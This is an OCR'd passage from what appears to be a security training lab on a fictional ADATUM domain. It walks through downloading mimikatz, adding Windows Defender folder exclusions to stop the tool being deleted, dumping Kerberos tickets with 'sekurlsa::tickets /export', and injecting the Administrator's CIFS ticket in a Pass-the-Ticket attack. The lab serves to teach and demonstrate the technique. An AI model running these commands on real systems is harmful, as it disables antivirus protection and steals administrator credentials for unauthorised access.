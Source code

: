 7.   Click **Microsoft Edge** icon in the taskbar. 
8.   In the Microsoft Edge window, browse to https://github.com/gentilkiwi/mimikatz/releases , right-click the entry representing the most recent version of **mimikatz_trunk.zip** and click **Save target as**.
9.   In the **Save As** dialog box, click **Save**.
10.   Note that Windows Defender Antivirus will automatically identify the file as containing a virus and delete it.
11.   Click **Start** and, in the **Start** menu, click **Windows Defender Security Center**.
12.   In the **Windows Defender Security Center** window, click **Virus & threat protection**, then click **Virus & threat protection settings**, and then click **Exclusions**.
13.   Click **Add or remove exclusions**, click the plus sign next to the **Add an exclusion** label and click **Folder**.
14.   In the **Select Folder** dialog box, type **C:\Users\Ida\Downloads** and then click **Select Folder**.
15.   When prompted, in the **User Account Control** dialog box, click **Yes**.
16.   Repeat the steps 8-10 to add the **C:\UTIL** folder to the list of exclusions
to the local **Downloads** folder. 
17.   Switch back to the Microsoft Edge window and, on https://github.com/gentilkiwi/mimikatz/releases page, right-click the entry representing the most recent version of **mimikatz_trunk.zip** and click **Save target as**.
18.   In the **Save As** dialog box, click **Save**.
19.   Once the downloads completes, click **Open folder**. 
20.   In the File Explorer window, right-click **mimikatz_trunk.zip** and click **Extract All**.
21.   In the **Extract Compressed (Zipped) Folders** dialog box, in the **Files will be extracted to this folder** text box, type **C:\UTIL** and click **Extract**.
22.   Click **Start**, in the **Start** menu, expand the **Windows System** folder, right click **Command Prompt**, click **More**, and then click **Run as administrator**. When prompted, in the **User Account Control** dialog box, click **Yes**.
23.   From the **Administrator: Command Prompt** window, run the following:

```
cd C:\UTIL\x64
```

24.   From the **Administrator: Command Prompt** window, run the following:

```
mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" "exit"
```

25.   This will dump each individual Kerberos ticket in the local cache into separate .kirbi files in the C:\\UTIL folder. You are interested only in those associated with the **ADATUM\\Administrator** account. In this task, you will test the **Pass-the-Ticket** functionality by validating access to the default administrative share of LON-DC1, so you’ll use only the relevant **CIFS** ticket. To copy the relevant tickets to the **C:\\UTIL\\Tickets** subfolder, from the **Administrator: Command Prompt** window, run the following: 

```
robocopy . C:\UTIL\Tickets *Administrator@cifs-lon-dc1.adatum.com.kirbi
```

26.   Now to execute a **Pass-the-Ticket** attack, from the **Administrator: Command Prompt** window, run the following:

```
mimikatz.exe "privilege::debug" "kerberos::ptt c:\UTIL\Tickets" "exit"
```
